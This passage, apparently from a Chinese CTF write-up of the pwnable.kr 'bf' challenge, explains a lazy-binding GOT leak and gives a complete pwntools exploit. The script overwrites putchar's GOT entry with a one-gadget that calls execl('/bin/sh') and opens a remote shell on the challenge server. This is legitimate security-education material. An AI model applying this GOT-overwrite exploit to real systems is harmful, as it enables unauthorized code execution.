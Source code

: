 一般来说在程序中esi不会发生变化，也是指向libc的GOT地址，但栈上或eax还是要满足一定的条件，注意到在程序调用`putchar`的过程中，如果`*(char *)p`为0即可使`[esp] == NULL`：

```
.text:0804863A
.text:0804863A loc_804863A:            ; jumptable 080485FC case 46
.text:0804863A mov     eax, ds:p
.text:0804863F movzx   eax, byte ptr [eax]
.text:08048642 movsx   eax, al
.text:08048645 mov     [esp], eax      ; c
.text:08048648 call    _putchar
.text:0804864D jmp     short loc_804866B ; jumptable 080485FC defaul
```

因为存在延迟绑定，先调用一次`putchar`函数再做泄露，最后定位p至tape地址即可使参数为0，利用脚本如下：

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

libc_elf = ELF('./bf_libc.so')

gdb_init = '''
b *0x08048665
c
'''

putchar_offset = libc_elf.symbols['putchar']
one_gadget_offset = 0x5fbc5 #execl("/bin/sh", eax)
tape_addr = 0x0804A0A0
putchar_got = 0x0804A030

payload = ''
payload += '.' # use putchar
payload += '<' * (tape_addr-putchar_got) # to putchar_got
payload += '.>' * 4 # leak putchar_addr
payload += '<' * 4 # to putchar_got
payload += ',>' * 4 # write one  gadget
payload += '>' *(tape_addr-putchar_got-4)
payload += '[.'

#p = gdb.debug('./bf', gdb_init)
#p = process('./bf')
p = remote('pwnable.kr', 9001)
p.recvuntil('except [ ]\n')
p.sendline(payload)
p.recv(1)
putchar_addr = u32(p.recv(4))
print hex(putchar_addr)
one_gadget_addr = putchar_addr - putchar_offset + one_gadget_offset
print hex(one_gadget_addr)
for c in p32(one_gadget_addr):
    p.send(c)

p.interactive()
```
